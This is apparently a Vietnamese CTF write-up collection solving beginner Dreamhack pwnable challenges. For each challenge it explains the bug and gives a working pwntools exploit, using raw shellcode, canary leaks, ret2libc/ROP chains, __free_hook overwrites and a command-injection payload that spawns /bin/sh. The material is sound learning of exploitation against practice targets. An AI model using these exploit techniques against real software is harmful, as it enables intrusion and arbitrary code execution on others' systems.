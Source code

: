 <details>
<summary>Welcome </summary>
	
- Ta chỉ cần kết nối và lấy flag
    
![](https://i.imgur.com/iDQVZs4.png)

</details>

<details>
<summary>basic_exploitation_000 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đầu tiên mở source xem thì thấy bị lỗi buffer overflow ở `scanf`
    
![](https://i.imgur.com/n5GB0GC.png)

- Do tắt hết các chế độ bảo vệ và trong code không có chỗ nào để lấy flag nên ta sẽ làm theo dạng ret2shell code
    
![](https://i.imgur.com/YEmF9r9.png)
    
- `scanf` không thể đọc các byte `\x09, \x0a, \x0b, \x0c, \x0d, \x20` do đó cần chọn shell cẩn thận

- Đây là shell tìm được
    
![](https://i.imgur.com/6JHxzSU.png)

- Kế tiếp ta tìm padding để overwrite ret address. Nếu tìm đúng thì ta được code như sau:
```python
from pwn import *
p = remote("host3.dreamhack.games",19166)
#p = process("./basic_exploitation_000")
p.recvuntil(b'(')
leak = int(p.recv(10).decode(),16)
print(hex(leak))
shell = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload = shell
payload += payload.rjust(132-len(shell), b"\x90") +  p32(leak)
p.sendlineafter(b")\n", payload)
p.interactive()
```
- Chạy script trên ta sẽ có được shell

</details>

<details>
<summary>basic_exploitation_001 </summary>
	
- Đề cho ta một file source và 1 file binary

![](https://i.imgur.com/YK5Xv37.png)

- Nhìn code thì mục đích ta là lợi dụng buffer overflow để chuyển ret qua `read_flag`
    
- Do đó ta cần tìm padding rồi overwrite ret address

- Script : 
```python
from pwn import *
exe = ELF("./basic_exploitation_001")
p= remote("host3.dreamhack.games", 1576)
#p= process(exe.path)
payload = b'A'*132 + p32(exe.sym['read_flag'])
p.sendline(payload)
p.interactive()
```
- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>shell_basic </summary>
	
- Đề cho ta một file source và 1 file binary
    
- Đọc code thì thấy chương trình sẽ chạy shellcode của ta nhập vào, và nó muốn ta viết asm để write, read, không sài `execve`

![](https://i.imgur.com/gtb4Dui.png)

- Đề cho ta sẵn tên flag và trong pwntool có sẵn thư viện để cat luôn nên sài cho nhanh
    
![](https://i.imgur.com/liAisvR.png)
    
- Script: 
```python
from pwn import *
context.arch='amd64'
p=remote("host1.dreamhack.games",15482)
p.sendafter(":",asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong")))
p.interactive()
```

- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>Return Address Overwrite </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì ta cần buffer overflow ở `scanf` để ret qua `get_shell`
    
![](https://i.imgur.com/FoP72KD.png)
    
- checksec thì thấy canary tắt nên bài này tìm padding overwrite bình thường là ra

![](https://i.imgur.com/N6HDEQj.png)

- Do mấy bài này dạng cơ bản nên mình không phân tích chi tiết

- Script : 
```python=
from pwn import *
exe = ELF("./rao")
p = remote("host3.dreamhack.games", 12411)
payload = b'A'*56 + p64(exe.sym['get_shell'])
p.sendlineafter(b"Input: ", payload)
p.interactive()
```
- Chạy script trên ta sẽ lấy được shell
</details>

<details>
<summary>basic_exploitation_003 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì nhận thấy có hàm `sprintf` bị lỗi format string. Hàm này copy `heap_buf` vào `stack_buf` , do trong hàm này không check có format specifier nào không nên bị lỗi này.
    
![](https://i.imgur.com/ZUdyNFB.png)

- Bài này ta có thể lợi dụng fmt để buffer overflow stack_buf hoặc sài fmt ghi địa chỉ nào đó luôn. Ở đây mình sài cách đầu tiên để overwrite ret address của main.
    
![](https://i.imgur.com/QYR5ZTb.png)

- Trừ 2 giá trị tô đỏ trên ta được offset là 256

- Script:
```python
from pwn import *

exe = ELF("basic_exploitation_003")
#p = remote("host2.dreamhack.games",13411)
p = process(exe.path)
p.sendline(b'%156c'+p32(exe.sym['get_shell']))
p.interactive()
```

</details>

<details>
<summary>out_of_bound </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/1a2kgkJ.png)

- Nhận thấy chương trình không check bound của idx nên sẽ bị lỗi out of bound cho ta thực hiện câu lệnh bất kỳ ở hàm `system`

- Ngoài ra đề cũng kêu nhập tên. Do đó mục đích ta là làm system gọi tới địa trỉ trỏ tới string `/bin/sh`. Ta sẽ làm bằng cách lợi dụng nhập tên ở name

- Do đó ta cần làm command trỏ tới name bằng cách tính offset của id: `0x0804A0AC = 4*id + 0x0804A060`. Ta được id là 19.

![](https://i.imgur.com/eGCzO2q.png)


- Phân tích ta nhận thấy khi trỏ tới name ta cần input thêm một địa chỉ trỏ tới chuỗi `/bin/sh` rồi mới tới `/bin/sh`

- Script:
```python
from pwn import *
p=remote("host3.dreamhack.games",9645)
#p =process("./out_of_bound")
payload = p32(0x0804A0AC+8)+b'\x00'*4+b'/bin/sh\x00'
p.sendafter(b'Admin name: ',payload)
p.sendafter(b'What do you want?: ',b'19')
p.interactive()
```
- Chạy script trên ta sẽ có được shell
</details>

<details>
<summary>Return to Shellcode </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/xUqhvgK.png)

- Đọc code thì thấy có thể sẽ leak canary và bị lỗi ở buffer overflow ở hàm `gets` 

- Checksec thì nhận thấy `NX disable` và đây là file x64 nên ta giải theo ret2shellcode x64
    
![](https://i.imgur.com/MWLEtJY.png)

- Đầu tiên là leak canary, ta sẽ lợi dụng buffer overflow rồi tìm padding tới canary leak. Do canary có byte 00 đầu làm ảnh hưởng tới printf nên ta sẽ leak lố qua 1 byte

![](https://i.imgur.com/K9pMdma.png)

- Ta sẽ tìm được offset là 0x61 byte. Vậy thì đầu tiên ta sẽ leak ra canary rồi sau đó overwrite ret của `main` qua address `buf` để thực hiện shellcode

- Script : 
```python
from pwn import *
p = process("./r2s")
context.arch = "amd64"
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16)
p.recvuntil("$rbp: ")
buflen = int(p.recvline().split()[0])
buf_cana = buflen - 8

payload = b"A"*(buf_cana + 1)
p.sendafter("Input:", payload)
p.recvuntil(payload)
leak = u64(b"\x00"+p.recvn(7))

shell = asm(shellcraft.sh())
payload = shell.ljust(buf_cana, b"A") + p64(leak) + b"A"*0x8 + p64(buf)

p.sendlineafter("Input:", payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x86 </summary>
	
- Đề cho ta 1 file source và file binary

![](https://i.imgur.com/EGKSycy.png)

- Đọc code thì nhận thấy có lỗi buffer overflow ở hàm `read`
    
- Tiếp theo ta `checksec` thì thấy dựa vào tên bài và lỗi này thì chắc chắn ret2libc x86 =)) 

![](https://i.imgur.com/1iyqyyC.png)

- Vậy thì lần đầu ta sẽ leak libc -> quay lại main -> overwrite ret main thành `system('/bin/sh')`

- Để leak libc ta overwrite ret của main theo padding sau để theo calling convention của x86 :`padding + đc plt put + ret main + đc got cần leak` (do arguments push lên stack nên không cần kiếm rop pop rdi...)

- Sau khi có libc ta làm tương tự payload sau để lấy shell: `padding + đc system + gì cũng được + đc binsh`
    
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x86_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",16434)

payload = b'a'*72 + p32(exe.plt['puts']) + p32(exe.sym['main'])+ p32(exe.got['read'])
p.send(payload)

p.recvuntil(b'a'*64)
read_leak = u32(p.recv(4))
print("leak read : ",hex(read_leak))

libc.address = read_leak-869200
#binsh = libc.address + 1806581
binsh = next(libc.search(b"/bin/sh"))
payload = b'a'*72 + p32(libc.sym['system']) + p32(binsh)+ p32(binsh)
p.send(payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x64 </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/QYZZRyB.png)

- Code với checksec y chang phần trước ngoại trừ đây là file x64 thôi.
- Do đó ta làm theo dạng ret2libc x64
- Dạng này thì leak libc -> về `main` -> thực thi `system` y chang phần trước ngoại trừ ta cần kiếm `pop rdi ret` gadget và thích thì kiếm `one_gadget` để lấy shell cho nhanh.
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x64_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",18845)
pop_rdi = 0x400883
payload = b'A' * 72 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) +  p64(exe.sym['main'])
p.sendline(payload)

p.recvuntil(b'A' * 64)
leak_libc = u64(p.recvline(keepends=False) + b"\x00\x00")
log.info("leak libc: " + hex(leak_libc))

libc.address = leak_libc - 456336

payload = b'A'* 72 + p64(libc.address + 0x45216)
p.sendline(payload)
p.interactive()
```
</details>

<details>
<summary>sint </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/MT2hly4.png)

- Đọc code thì thấy `size` phải trong khoảng [0,256], sau đó sẽ nhập `size-1` số vào `buf`

- Đọc manpage `read` thì nhận thấy `size-1` đó phải là số dương mà nếu ta nhập 0 sẽ dẫn đến `size-1<0` làm read nhận dạng số âm thành số dương. Do đó có lỗi bufer overflow ở `read` nếu ta nhập 0
                                                                                                     
![](https://i.imgur.com/GRBZ6j3.png)

- Ngoài ra chương trình cũng có hàm `get_shell` để lấy shell. Do đó ta cần buffer overflow để ret2get_shell 
                                                                                                       - Script:
```python=
from pwn import *
exe = ELF("sint")
p = remote("host3.dreamhack.games",12276)
#p = process(exe.path)
p.sendlineafter(b'Size: ',b'0')
p.sendlineafter(b'Data: ',b'a'*260+p32(exe.sym['get_shell']))
p.interactive()
```    
</details>

<details>
<summary>Return to Library</summary>
	
- Bài cho ta 1 file source và 1 file binary
    
- Đọc code thì thấy ta cần leak canary rồi overwrite ret address do có lỗi buffer overflow

![](https://i.imgur.com/4rmzscx.png)

- Đọc thì bài này là bài kết hợp ret2libc x64 với ret2shellcode ở trên.

- Ở đây ta không cần leak libc vì No PIE

![](https://i.imgur.com/90ushGF.png)

- Dạng cơ bản nên làm `pop rdi, ret` bình thường thôi. Mà ở đây mình chain thêm ret vì lúc đầu bị lỗi xmm

- Script : 
```python
p.sendafter('Buf: ',payload)
p.recvn(61)
canary = u64(p.recvn(8)) - 0x41

pop_rdi = 0x00400853
ret = 0x400285
binsh = 0x600874
system = 0x4005d0
payload = 'A'*0x38 + p64(canary) + 'A'*0x8
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```
</details>
    
<details>
<summary>one_shot </summary>
	
- Bài cho ta một file binary, 1 file source, 1 file libc

- Đọc file source thì thấy đề sẽ leak libc và bị lỗi buffer overflow ở `read` 

![](https://i.imgur.com/6futpAZ.png)

- Bài không có canary nên overflow bình thường. Ngoài ra code không có chỗ để leak nên bài này ta làm ret2libc.
![](https://i.imgur.com/qTICEDD.png)

- Đề cho overflow 46 byte mà nếu tính padding + chain `pop rdi` sẽ không đủ do đó bài này muốn ta sài `one_gadget`

- Sài `one_gadget` ta được như sau:

![](https://i.imgur.com/EEjsqdh.png)

- Rồi thì ret2libc bình thường thôi.
- Script:

```python
from pwn import *
exe = ELF("oneshot_patched")
libc= ELF("libc.so.6")
#p = process(exe.path)
p= remote("host3.dreamhack.games",20854)
p.recvuntil(b'stdout: ')
std = int(p.recvline(keepends=False).decode(), 16)
libc.address = std - 3954208
payload = b'A'*24 + p64(0) + b'A'*8 + p64(libc.address+0x45216)
p.sendlineafter(b'MSG: ',payload)
p.interactive()
```
</details>
    
<details>
<summary>off_by_one_001 </summary>
	
- Đề cho ta 1 file source và 1 file binary    

- Đọc code thì thấy nếu ta làm cho `age = 0` thì có shell

![](https://i.imgur.com/sMZUFaw.png)

- Đọc hàm `read_str` thì thấy nếu ta nhập đủ 20 ký tự thì sẽ gán index thứ 20 là `\0`. Nhưng thực tế thì `ptr` khai báo là [20] tức từ index 0 ->19. Nên ở đây có lỗi off by one và vô tình ghi vào age và có shell
    
![](https://i.imgur.com/qLTMUax.png)

- Nhập thử và được shell:
    
![](https://i.imgur.com/4E8t67A.png)

</details>
    
<details>
<summary>hook </summary>
	
- Bài cho ta 1 file source, file binary và file libc.    

- Đọc source thì thấy chỗ `*(long *)*ptr = *(ptr+1);` rất đáng ngờ vì nó cho phép ta ghi. Giả sử ta có mảng a[2]={1,2} thì phép toán trên trên tương tự gán a[0]=a[1]. 

![](https://i.imgur.com/BRTXl9y.png)

- Do đó ta cần chọn địa chỉ cần ghi và ở đây là `free`. Ta muốn ghi `free` thành `one_gadget` để lấy shell. 
- Đề leak sẵn cho ta libc, one_gadget thì ta chọn từng cái, cái nào được thì sài.
    
![](https://i.imgur.com/VQL4Gb1.png)

- Chỗ `size` ta nhập số bất kỳ miễn sau đủ lớn để chứa 2 địa chỉ. Còn `data` thì ta input payload để gán địa chỉ `hook` thành địa chỉ `one_gadget`
- Script : 
```python
from pwn import *
exe = ELF("hook_patched")
libc = ELF("libc.so.6")
#p = process(exe.path)
p = remote("host3.dreamhack.games",9920)
p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
libc.address = stdout - 3954208
print(hex(libc.symbols["__free_hook"]))
p.sendlineafter(b'Size: ',b'100')
payload = p64(libc.symbols["__free_hook"]) + p64(libc.address+ 0x4526a)
p.sendlineafter(b'Data: ',payload)
p.interactive()
```

- Ở đây ta sài `__free_hook` vì nó chứa địa chỉ thực thi của `hook` 
- Chạy script trên ta sẽ có shell
</details>

<details>
<summary>rop </summary>
	
- Đề cho ta file source, file libc,file docker,file binary

- Đầu tiên ta đọc source thì thấy cũng giống mấy bài rop trên thôi =)). Bắt leak canary rồi ret2libc

![](https://i.imgur.com/VZBcygu.png)

- Vậy thì ta làm y chang bài trên là được.
- Script : 
```python
from pwn import *

exe=ELF("rop_patched")
libc = ELF("libc.so.6")

#p=process(exe.path)
p = remote("host3.dreamhack.games",17896)

'''
gdb.attach(p,
"""
b*main
c
""")
input()
'''
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))

pop_rdi_ret = 0x00000000004007f3
payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(pop_rdi_ret) + p64(exe.got['read']) + p64(exe.plt['puts']) + p64(exe.sym['main'])

p.sendafter("Buf: ",payload)

leak = u64(p.recvn(6)+b'\x00\x00')
print(hex(leak))
libc.address =  leak - libc.sym['read']
print("libc base : ",hex(libc.address))
print("libc system " ,hex(libc.sym['system']))

p.sendafter("Buf: ",b'a')

payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(0x000000000040055e) + p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendafter("Buf: ",payload)
p.interactive()
```
</details>

<details>
<summary>off_by_one_000</summary>
	
- Đề cho ta 1 file source và 1 file binary
- Đọc file source thì thấy có lỗi off by one ở hàm `strcpy` do biến `cp_name` max là 256 ký tự (bao gồm null byte), khi ta input max 256 ký tự thì sẽ overwrite 1 byte qua `real_name`. Ngoài ra có hàm `get_shell` cho ta shell
- Để coi sự ảnh hưởng của 1 byte null đó ta sẽ debug.
    
![](https://i.imgur.com/7YBUhDZ.png)

- Ở đây trước và sau nhận thấy byte cuối của epb bị overwrite thành 00
- Khi ret address của main lúc này thành `0xffffd004` trỏ về đâu đó giữa chuỗi mình nhập vào
    
![](https://i.imgur.com/TzxgygT.png)

- Do đó khi bị off by one nó sẽ trỏ về giữa stack
    
![](https://i.imgur.com/qpkzABd.png)

- offset là 20 chia hết cho 4 vậy thì đỡ tính toán ta gửi payload là địa chỉ của get_shell (256/4) lần (do địa chỉ get_shell gồm 4 số).
- Script : 
```python
from pwn import *
exe = ELF("off_by_one_000")
p = remote("host3.dreamhack.games",15154)
#p = process(exe.path)
p.sendafter(b'Name: ',p32(exe.sym['get_shell'])*64)
p.interactive()
```
</details>
    
<details>
<summary>cmd_center </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow ở `read`
![](https://i.imgur.com/D1zAKwq.png)

- Phân tích thì hàm `strncmp` so sánh `cmd_ip` với `ipconfig`. Hàm `strncmp` sẽ so sánh đến khi 1 trong 2 gặp null terminator hoặc sâu cmd_ip khác với `ipconfig` 8 chữ cái đầu. Do đó ta sẽ lợi dụng buffer overflow để overwrite `cmd_ip` thành sâu gồm `ipconfig` + lệnh để lấy shell.
- Script: 
```python
from pwn import *
p = remote("host3.dreamhack.games",15401)
#p = process("./cmd_center")
payload = b'A'*32+b'ifconfig || /bin/sh\x00'
p.sendafter(b'Center name: ',payload)
p.interactive()
```
</details>

<details>
<summary>ssp_000 </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow và code cho ta gán địa chỉ bất kỳ. Còn có hàm `get_shell` cho ta shell
    
![](https://i.imgur.com/AgJK0xU.png)

- Checksec thì thấy canary bật , NO PIE
    
![](https://i.imgur.com/lPS5Btj.png)


- Phân tích thì nếu bị buffer overflow canary thì code sẽ gọi `stack_chk_fail`. Do đó nếu ta lợi dụng bof để gọi `stack_chk_fail` và dùng lỗi ghi địa chỉ kia để overwrite got `stack_chk_fail` thành `get_shell` thì ta sẽ có được shell
- Script : 
```python
from pwn import *
exe = ELF("ssp_000")
p= remote("host2.dreamhack.games",8718)
#p=process(exe.path)
p.sendline(b'a'*0x80)
p.sendlineafter(b'Addr : ',str(exe.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ',str(exe.sym['get_shell']))
p.interactive()
```
</details>

<details>
<summary>fho </summary>
	
- Đề cho ta 1 file source, file binary,file libc
    
- Đọc code thì thấy có lỗi bof cho ta leak stack,ngoài ra còn có phép gán địa chỉ bất kỳ.
    
![](https://i.imgur.com/uA4un6V.png)

- Checksec thì thấy full giáp
    
![](https://i.imgur.com/9osTwMz.png)

- Ý tưởng hiện tại là leak libc -> write `free` thành `system` -> nhập add là đc `/bin/sh` để lấy shell
- Đầu tiên là leak libc. Ở đây mình sẽ leak `__libc_start_call_main`. Các bước để leak thì làm như bình thường.

![](https://i.imgur.com/H5UEpm5.png)

- Leak xong thì overwrite `free` thành `system`. Để overwrite `free` thì ta cần ghi vào địa chỉ của `__free_hook` vì ở đây chứa địa chỉ thực thi của `free`. Cuối cùng thì lấy ``/bin/sh trong libc.
- Script:
```python
from pwn import *
exe = ELF("fho_patched")
libc= ELF("libc.so.6")
#p=process(exe.path)
p=remote("host3.dreamhack.games",14797)
p.sendlineafter(b'Buf: ',b'a'*72)
p.recvuntil(b'a'*72)
leak = u64(p.recv(6) + b'\x00\x00')
libc.address = leak - 137994
print(hex(libc.address))
p.sendlineafter(b'To write: ', str(libc.sym['__free_hook']))
p.sendlineafter(b'With: ', str(libc.sym['system']))
p.sendlineafter(b'To free: ', str(next(libc.search(b'/bin/sh'))))
p.interactive()
```
</details>